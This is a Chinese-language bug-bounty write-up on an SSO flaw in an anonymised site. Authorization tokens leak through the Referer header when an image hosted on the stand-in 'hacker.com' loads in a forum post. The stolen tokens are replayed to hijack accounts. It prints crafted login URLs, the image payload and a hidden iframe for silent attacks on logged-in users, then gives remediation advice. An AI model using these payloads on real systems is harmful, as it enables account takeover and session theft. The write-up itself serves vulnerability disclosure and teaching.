漏洞挖掘 | 单点登录的网站通过Referer盗取用户授权
最近参加了一个赏金计划，然后在单点登录中发现了一个涉及比较多站点的漏洞，测试过程比较有意思，所以分享一下。
基础解答：
一般我们在挖洞的时候，很关键的就是要观察数据流，你可以选择用burp，当然也可以使用浏览器的F12(俗称浏览器F12大法)来观察数据流向。
以下将用户中心登录站点称为passport.AAA.com，用户在登陆*.AAA.com的时候可以选择先登录passport.AAA.com，然后它会返回授权，接着用户就能登录*.AAA.com了。

当然我一般都是先登录了，然后再去点击这个链接，接着默默观察浏览器都请求了啥玩意。
你可以发现其中的一个请求长成下面这个样子：
https://passport.AAA.com/sso/accounts/serviceLogin?continue=http://subdomain.AAA.com/SSOServerLogin&isiframe=1&service=service_id&location=687474703a2f2f737562646f6d61696e2e4141412e636f6d2f&CSSStyle=https://static.xxx.AAA.com/sso/subdomain/style/login_t_cover160316.css
然后会跳转到
http://subdomain.AAA.com/SSOServerLogin?auth=xxxx&isiframe=1&location=687474703a2f2f737562646f6d61696e2e4141412e636f6d2f
那么理所当然的，这里有几个参数我们肯定是要改一改看看服务器怎么响应了：continue、isiframe、service、location、CSSStyle。
从上面的链接我们可以看到最后授权是返回给了continue指定的值，于是我把continue参数的值改为http://www.baidu.com，然后访问
https://passport.AAA.com/sso/accounts/serviceLogin?continue=http://www.baidu.com&isiframe=1&service=service_id&location=687474703a2f2f737562646f6d61696e2e4141412e636f6d2f&CSSStyle=https://static.xxx.AAA.com/sso/subdomain/style/login_t_cover160316.css
很遗憾，并不能马上成功
说明人家还是校验了域名的，于是接下来就要想办法正面刚一下，看看服务器是不是真的很好的校验了该域名！
将continue的值设置为http://www.baidu.com@AAA.com, http://AAA.com.www.baidu.com等欺骗域名均告失败，当设置为http://www.baidu.com#@AAA.com可以截断变成http://www.baidu.com，但是后端还是通不过，说明continue这个值没有办法指向任意域名。
接下来把continue值设置为http://*.AAA.com发现是成功的，说明这里的校验应该是限制为了AAA.com下的任意子域名(后面测试发现其实还有一些白名单域名，比如BBB.com等)。既然是这样子，那continue参数先放着，再看看其他值。
isiframe这种要么1要么0，改完也没发现什么变化，跳过。 CSSStyle这个参数，从名字上来看应该是加载指定的css，于是可以猜想，假如成功控制了这里的值，那么是不是可以造成加载外域css然后导致xss，或者在请求该css时会泄露一些数据。经过测试之后，这个参数值并没有起作用，假的！ service指定的是站点的标识。
最后说到location这个参数，一看他的值就知道是经过编码或者加密的，那么有两种情况，在本地进行加密/编码，反之在服务端。如果在服务端，那就束手无策了，除非你天赋异禀直接给猜解出来。那如果是在客户端，找到加密/编码函数，这个参数也能为你所用了。
在浏览器中刷新了一下请求，然后去关注一下所有加载的js脚本，我是通过以location为关键字搜到了该编码函数，函数只是简单的将参数进行编码。
来测试location参数的值，一样的步骤，只是这里再加了一次编码而已。
于是将http://www.baidu.com/编码一下赋值给location，访问
https://passport.AAA.com/sso/accounts/serviceLogin?continue=http://subdomain.AAA.com/SSOServerLogin&isiframe=1&service=service_id&location=687474703a2f2f7777772e62616964752e636f6d&CSSStyle=https://static.xxx.AAA.com/sso/subdomain/style/login_t_cover160316.css
显示
还是有校验，而且因为校验失败，还要重新登https://passport.AAA.com/最后发现这里的校验和continue参数情况一模一样。
到现在这种情况，正面刚域名欺骗已经不可能了。回过头来，我们刚刚测试有发现continue的值可以是AAA.com下的任意子域名(还有一些指定的白名单跨域域名)，那么首先能想到的就是如果我们能找到AAA.com下的一个跳转漏洞，那么是不是就可以在跳转后把授权给传送出去呢？
于是找了几个子域名下的跳转：http://subdomian.AAA.com/topLocation?location=687474703a2f2f7777772e62616964752e636f6d这个链接访问后会跳转到百度，于是将其值给continue，确实是可以跳转，但是跳转后的结果却是
http://subdomain.AAA.com/topLocation?auth=xxxxxx&isiframe=1&location=687474703a2f2f737562646f6d61696e2e4141412e636f6d2f
浏览器再进而请求http://subdomain.AAA.com/topLocation?location=687474703a2f2f742e77616e6d65692e636f6d2f
看到没，授权值是/topLocation?auth=xxxx而不是http://www.baidu.com/?auth=xxxx或者是http://subdomian.AAA.com/topLocation?location=687474703a2f2f7777772e62616964752e636f6d&auth=xxxx，也就是说服务端只获取了?(问号)前面的值而后面的直接丢弃，导致跳转失效了，自然授权值也就传不出去了。
又重新找了几个通过参数进行跳转的跳转漏洞，结果都是?之后被截断，这条路也就行不通了，除非能找到一个不带?的跳转，这个就比较难了，直接放弃。
再想想还有什么办法获取到这个授权值呢？对了，网站在跨域请求网站内容时会通过referer来标记来源，如果当前发起请求的页面链接中存在授权值，则referer也会记录该值！
上面的跳转漏洞，由于授权值是返回给http://subdomian.AAA.com/，完了之后才对外跳转，referer是不含有该授权值的。
陆续又找了几个跳转漏洞，由于包含多重跳转，到最后referer带的都不是我们想要的数据了。
思路又断了，这时候又突然想到，在AAA.com域名下是有很多bbs的二级域名站点的，如果能在bbs站点插入对外的请求，那么是不是有机会把数据传出去呢？
刚好bbs.subdomain.AAA.com这个站点允许插入外链图片

插入的图片html代码如下
<img id="aimg_gyvvi" onclick="zoom(this, this.src, 0, 0, 0)" class="zoom" width="440" height="440" src="http://hacker.com/jpg/12345.jpg" border="0" alt="">
最后构造链接：
https://passport.AAA.com/sso/accounts/serviceLogin?continue=http://bbs.subdomain.AAA.com/thread-942592-1-1.html&isiframe=1&service=service_id&location=687474703a2f2f7777772e62616964752e636f6d&CSSStyle=https://static.xxx.AAA.com/sso/subdomain/style/login_t_cover160316.css
访问后Referer如下：
http://bbs.subdomain.AAA.com/thread-942592-1-1.html?auth=xxxxxx&isiframe=1&location=687474703a2f2f7777772e62616964752e636f6d
referer成功附带授权数据。
获取到授权后，只需要在正常的模拟一次授权过程，把接收授权返回值的接口找出来，把通过referer获取到的auth值喂给它，即可登录对应用户的账户：
http://subdomain.AAA.com/SSOServerLogin?auth=xxxxxxxx&isiframe=1&location=687474703a2f2f7777772e62616964752e636f6d
上面的文字内容偏多，可能读起来费劲，以下为图文并茂内容。
可被黑客劫持用户授权的站点：http://.AAA.com/ http://.BBB.com/
漏洞细节：
AAA.com支持通过 “通行证”登录旗下各个站点，登录口是 https://passport.AAA.com/
在我们要登录http://subdomain.AAA.com/时就可以看到该接口

【1】前期准备
一个“通行证”账号 登录后在子域名论坛发了个帖子 http://bbs.subdomain.AAA.com/thread-942592-1-1.html

帖子嵌入了一个外链图片

当这个页面被请求时，浏览器就会对外请求该图片 http://hacker.com/jpg/12345.jpg
然后黑客服务器可以通过记录referer来得知是哪一个站点发起的请求，即referer的数据都可得。
【2】
在已经登录https://passport.AAA.com/的情况下 (1)访问
https://passport.AAA.com/sso/accounts/serviceLogin?continue=http://bbs.subdomain.AAA.com/thread-942592-1-1.html&isiframe=1&service=service_id&location=687474703a2f2f737562646f6d61696e2e4141412e636f6d2f&CSSStyle=https://static.xxx.AAA.com/sso/subdomain/style/login_t_cover160316.css
简单介绍一下continue参数指向的是我上面发布的那个帖子，location的值是通过网站的函数编码过的http://subdomain.AAA.com/
访问后，授权的数据就会自动附带在链接中如下：

可以看到在请求这张对外的图片时，也把授权用的auth等参数的值以referer的方式向网站发起了请求，而我们只需要在服务器记录请求即可获取到改值。
获取到这些值后： auth=xxxx&isiframe=1&location=687474703a2f2f737562646f6d61696e2e4141412e636f6d2f
我们在浏览器的隐身窗口(以保证我们没有登录passport.AAA.com)中打开如下链接：
http://subdomain.AAA.com/SSOServerLogin?auth=xxxx&isiframe=1&location=687474703a2f2f737562646f6d61696e2e4141412e636f6d2f
即可登录对应账号在subdomain.AAA.com的用户中心


(2)访问
http://passport.AAA.com/sso/accounts/serviceLogin?continue=http://bbs.subdomain.AAA.com/thread-942592-1-1.html&service=service_id&isiframe=1&location=687474703a2f2f7777772e4242422e636f6d2f
这里continue还是指向我的帖子，service指定为对应站点，location的值为默认

获取到auth等参数的值auth=yyyy&isiframe=1&location= 687474703a2f2f7777772e4242422e636f6d2f
然后在浏览器的新建隐身窗口中打开如下链接：
http://www.BBB.com/sso/loginPc?auth=yyyy&isiframe=1&location=687474703a2f2f7777772e4242422e636f6d2f

这时候已经授权完，但是页面会在那一直重复刷新，没关系，我们这时候重新请求http://www.BBB.com/main.htm

发现我们已经登录进该网站
但是，但是，但是，如果你去访问http://members.BBB.com 会显示你还未登录
所以我们可以用下面的方法继续
请求如下链接：
https://passport.AAA.com/sso/accounts/serviceLogin?continue=http://bbs.subdomain.AAA.com/thread-942592-1-1.html?&isiframe=1&service=service_id&location=687474703a2f2f7777772e4242422e636f6d2f
continue还是指向帖子，location为http://members.BBB.com/

通过referer，网站成功获得 auth=zzzz&isiframe=1&location=687474703a2f2f7777772e4242422e636f6d2f 在新建隐身窗口中打开如下链接：
http://members.BBB.com/SSOServerLogin?auth=zzzz&isiframe=1&location=687474703a2f2f7777772e4242422e636f6d2f


登录用户中心成功！
【3】
在未登录https://passport.AAA.com/的情况下 实际上和上面的也没差别，链接还是一样，只是当下要你马上登录而已

登录后还是会跳转到那个帖子，然后通过referer传递数据 这种情况下链接可能比较长，那么可以通过短链接来进行伪装
【4】更好的利用漏洞
(1)子域名下有很多bbs站点，那么去论坛上发帖，然后把链接弄成短链接，如果是已经登录的用户就直接中招了，如果是未登录的用户，那么他点了链接之后登录也会中招。(2)对于攻击已登录的用户，还有一个更好的办法，那么就是像利用csrf一样，在自己的网站直接用隐藏的iframe请求，用户无声无息就中招了
<iframe id=kk src= "https://passport.AAA.com/sso/accounts/serviceLogin?continue=http:// bbs.subdomain.AAA.com/thread-942592-1-1.html&isiframe=1&service=service_id&location=687474703a2f2f7777772e4242422e636f6d2f&CSSStyle=https://static.xxx.AAA.com/sso/subdomain/style/login_t_cover160316.css" border= "1" frameborder= "1 " width= "100 " height= "100 " style= "display:none "> </iframe>

修复方案：
可以在后端直接就指定了service对应的地址，所以你在请求时无论改什么，最后授权都是返回指定的网站。另外一个的话，论坛最好还是不要允许直接插入外链，每个网站在对外发起请求时最好有一个中转站点用来脱敏，可以参考qq邮箱或者知乎的外链脱敏方法。

作者: tdaro
博客地址: https://b.cp0.win/
参考来源: tdaro的Blog